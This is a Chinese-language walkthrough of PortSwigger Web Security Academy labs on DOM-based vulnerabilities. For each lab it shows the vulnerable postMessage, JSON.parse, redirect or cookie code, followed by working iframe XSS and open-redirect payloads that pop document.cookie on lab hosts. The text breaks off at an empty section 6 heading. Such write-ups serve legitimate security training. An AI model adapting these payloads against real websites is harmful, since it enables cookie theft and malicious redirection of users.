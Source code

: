 [TOC]

#### 1. DOM XSS using web messages

![1.1](DOM-burp.assets/1.1.png)

而这里的题目是将message写入网页。

```html
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

POC:

```HTML
<iframe src="https://ac821fec1e9d44ce80a17ea100e50084.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=\'uuu\' onerror=alert(document.cookie)>','*')">
```

#### 2. DOM XSS using web messages and a JavaScript URL

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

这里检查url里面是否存在`http:`或者`https:`，如果存在其中一个或者两个都存在，则将`url`赋值给`location.href`。

我一开始用`http://qwerty`去尝试，试图找出这个location作用在哪里，然后发现被http被禁止了。

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('http://qwerty','*')">
```

![2.1](DOM-burp.assets/2.1.png)

换成`https`：

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('https://qwerty','*')">
```

![2.2](DOM-burp.assets/2.2.png)

换成`https`之后发现跳转了。然而我还是没有找到这个[`location`属性](https://www.runoob.com/w3cnote/js-redirect-to-another-webpage.html)在哪，推测是系统变量。

去搜了一下，这个类似`<a href="location.href">`标签。

那只要将`location.href`改成类似`javascript:alert(1)//https:`就可以了。

POC:

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//https:','*')">
```

#### 3. DOM XSS using web messages and `JSON.parse`

```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe');
        var ACMEplayer = {element: iframe};
        var d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

> **`JSON.parse()`** 方法用来解析JSON字符串，构造由字符串描述的JavaScript值或对象。

尝试构造json：(注意[json的格式](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/JSON))

> 对象和数组的属性名称必须是**双引号**括起来的字符串；最后一个属性后不能有逗号。

`{"type":"load-channel", "url":"javascript:alert(document.cookie)"}`

这个json就会在switch那里进入第二个case，然后把javascript部分放到src里面，进而执行alert函数。

POC:

```html
<iframe src="https://ac451f2d1fb1f86d80f705ef00a8009a.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:alert(document.cookie)\"}","*")'>
```

#### 4. DOM-based open redirection

这道题在评论页面有这样一段源码：

```html
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = &quot;/&quot;">Back to Blog</a>
```

所以给url参数就好了,

POC:

```html
<iframe src="https://ac181f981f5097ef80d217e900ee001c.web-security-academy.net/post?postId=4&url=https://acab1fe91f5b97b7802a176e01a9004c.web-security-academy.net/">
<!-- url指向Exploit Server -->
```

#### 5. DOM-based cookie manipulation

随便view一个details，查看源码，发现了这段代码：

```html
<a href="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=1">Last viewed product</a>
...
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

这里会将`lastViewedProduct`的值填到上面的`href`里面。

尝试闭合：

`https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(1)</script>`

成功。

这里需要先加载恶意的网站来生成cookie，之后需要重定向到主页。

构造POC：

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload='window.location.assign("https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/")'>
```

这个POC已经可以弹出cookie了，但是不知道为啥不给过。

官方给的payload是在iframe的框架下重定向的。

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/';window.x=1;">
```

这里如果直接让`onload="this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/'"`就会一直弹窗，因为每跳转一次，就会触发一次`onload`。

而官方给的payload只会触发一次：第一次触发的时候没有`window.x`，所以触发，之后将`window.x`赋值，就不为空了，也就不会再次触发跳转。

好家伙，官方的paylaod都不给过。裂开。

终于，终于，靶场重置之后，我过了。

#### 6. Exploiting DOM clobbering to enable XSS

